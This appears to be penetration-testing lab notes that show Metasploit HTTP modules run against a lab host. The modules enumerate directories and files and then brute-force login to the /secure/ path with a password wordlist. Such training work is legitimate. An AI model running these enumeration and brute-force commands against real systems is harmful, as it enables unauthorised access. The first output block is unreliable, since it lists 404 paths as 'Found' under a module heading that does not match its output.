 > **`auxiliary/scanner/http/http_put`**

```bash
[+] Found http://192.106.226.3:80/cgi-bin/ 404 (192.106.226.3)
[+] Found http://192.106.226.3:80/data/ 404 (192.106.226.3)
[+] Found http://192.106.226.3:80/doc/ 404 (192.106.226.3)
[+] Found http://192.106.226.3:80/downloads/ 404 (192.106.226.3)
[+] Found http://192.106.226.3:80/icons/ 404 (192.106.226.3)
[+] Found http://192.106.226.3:80/manual/ 404 (192.106.226.3)
[+] Found http://192.106.226.3:80/secure/ 404 (192.106.226.3)
[+] Found http://192.106.226.3:80/users/ 404 (192.106.226.3)
[+] Found http://192.106.226.3:80/uploads/ 404 (192.106.226.3)
[+] Found http://192.106.226.3:80/web_app/ 404 (192.106.226.3)
[+] Found http://192.106.226.3:80/view/ 404 (192.106.226.3)
[+] Found http://192.106.226.3:80/webadmin/ 404 (192.106.226.3)
[+] Found http://192.106.226.3:80/webmail/ 404 (192.106.226.3)
[+] Found http://192.106.226.3:80/webdb/ 404 (192.106.226.3)
[+] Found http://192.106.226.3:80/webdav/ 404 (192.106.226.3)
[+] Found http://192.106.226.3:80/~admin/ 404 (192.106.226.3)
[+] Found http://192.106.226.3:80/~nobody/ 404 (192.106.226.3)
```

> **`auxiliary/scanner/http/files_dir`**

```bash
search files_dir
use auxiliary/scanner/http/files_dir
options
set DICTIONARY /usr/share/metasploit-framework/data/wmap/wmap_files.txt
run
```

```bash
[+] Found http://192.106.226.3:80/file.backup 200
[*] Using code '404' as not found for files with extension .bak
[*] Using code '404' as not found for files with extension .c
[+] Found http://192.106.226.3:80/code.c 200
[*] Using code '404' as not found for files with extension .cfg
[+] Found http://192.106.226.3:80/code.cfg 200
[*] Using code '404' as not found for files with extension .class
[...]
[*] Using code '404' as not found for files with extension .html
[+] Found http://192.106.226.3:80/index.html 200
[*] Using code '404' as not found for files with extension .htm
[...]
[+] Found http://192.106.226.3:80/test.php 200
[*] Using code '404' as not found for files with extension .tar
[...]
```

> **`auxiliary/scanner/http/http_login`**

```bash
search http_login
use auxiliary/scanner/http/http_login
options
set AUTH_URI /secure/
unset USERPASS_FILE
echo "rooty" > user.txt
set USER_FILE /root/user.txt
set PASS_FILE /usr/share/metasploit-framework/data/wordlists/unix_passwords.txt
set VERBOSE false
run
```
